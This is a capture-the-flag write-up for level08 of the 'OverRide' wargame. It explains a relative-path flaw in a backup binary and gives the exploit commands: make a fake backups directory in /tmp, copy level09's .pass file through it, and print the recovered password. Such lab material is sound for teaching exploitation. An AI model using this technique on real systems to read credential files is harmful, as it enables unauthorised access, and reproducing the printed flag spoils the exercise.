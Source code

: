 ### Download binary
``scp -P4242 level06@192.168.31.33:/home/users/level06/level06 ~/Bureau/``

----

### Decompilation with ghidra
We disasemble the main, to search for a breach.

----

### Main function analysis (refer to source code)

The main vulnerability in the provided code lies in the way the program handles file paths. Specifically, the program uses relative paths rather than absolute paths. This makes it susceptible to path traversal attacks, where an attacker can trick the program into accessing directories outside of the intended scope.

----

### Preparing the attack

Navigate to a directory you have write permissions in. The /tmp directory is a good choice as it's world-writable.

``level08@OverRide:~$ cd /tmp``


Create Malicious Directory Structure:

Craft a directory structure that, when combined with the program's relative path, leads to the file you want to backup (copy). Here, we want to copy the .pass file of level09.

``level08@OverRide:/tmp$ mkdir -p './backups/home/users/level09/'``

----

### Bypassing security

Run the Program with Target File:

``level08@OverRide:/tmp$ ~/level08 /home/users/level09/.pass``

Display the result

``level08@OverRide:/tmp$ cat backups/home/users/level09/.pass``
>fjAwpJNs2vvkFLRebEvAQ2hFZ4uQBWfHRsP62d8S
